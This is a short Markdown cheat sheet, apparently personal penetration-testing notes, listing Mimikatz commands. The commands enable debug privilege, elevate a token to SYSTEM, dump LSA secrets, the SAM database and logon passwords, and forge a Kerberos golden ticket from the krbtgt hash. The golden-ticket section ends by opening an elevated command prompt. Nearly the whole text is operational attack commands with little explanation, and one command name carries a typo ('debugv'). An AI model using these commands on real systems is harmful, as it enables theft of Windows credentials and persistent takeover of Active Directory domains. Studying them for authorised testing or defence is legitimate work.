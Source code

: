# Mimikatz

```c
privilege::debugv # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### lsadumping

```c
privilege::debug
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Golden Ticket Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos  [[Active-Directory-Kerberos-Defined]]
```c
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`,then  
open command prompt with elevated privileges `misc::cmd`.

